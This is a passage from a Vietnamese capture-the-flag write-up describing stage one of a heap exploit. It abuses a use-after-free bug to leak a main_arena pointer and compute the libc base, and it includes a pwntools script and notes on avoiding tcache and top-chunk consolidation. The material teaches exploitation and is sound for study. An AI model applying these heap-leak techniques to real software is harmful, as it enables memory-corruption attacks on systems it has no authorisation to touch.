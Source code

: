![image](https://github.com/gookoosss/CTF/assets/128712571/5aaa235c-9a78-421d-b78b-58d82e466ab6)

- lợi dụng lỗi UAF thì ta có thể leak được địa chỉ này và tính được **libc base**

## Exploit

- **Stage 1: leak libc**

để leak libc thì ta cần sử dụng hàm **custom_func**

như đã phân tích ở trên xong sau khi free xong thì nó trả về 1 địa chỉ libc ở phần Data, ta malloc 1 chunk có kích thước tương tự chunk trước thì ta hoàn toàn có leak ra được địa chỉ này, từ đó tính offset ra libc base

### Note

- để có thể leak được địa chỉ main_arena, **ta cần khởi tạo cho nó lớn hơn 0x400 byte**, lý do là nếu nhỏ hơn thì sau khi free nó sẽ lưu trong tcache và ko có được địa chỉ ta cần
- **khi free ta cần tạo 1 chunk khác ngăn cách chunk ta cần free vs top chunks**, lý do nếu ta free chunk liền kế với top chunk thì nó sẽ gộp chunk đó vào top chunk luôn và ta không có được địa chỉ ta cần

![image](https://github.com/gookoosss/CTF/assets/128712571/1b62cefd-8fb0-4e5e-b3ba-32d363dded24)



```python
# Stage 1: leak libc 

# tạo 1 chunk cần free nhưng không free
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
p.sendlineafter(b'idx: ', b'10') # index đã lớn hơn 9 nên ko free

# tạo 1 chunk ngăn cách và free chunk trên 
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
p.sendlineafter(b'idx: ', b'0') # index = 0 là chunk trên á

# tới đây leak libc thôi
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
p.recvuntil(b'Data: ') # lúc này Data đang là địa chỉ main_arena
libc_leak =  u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x3ebc61
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
p.sendlineafter(b'idx: ', b'10')

```
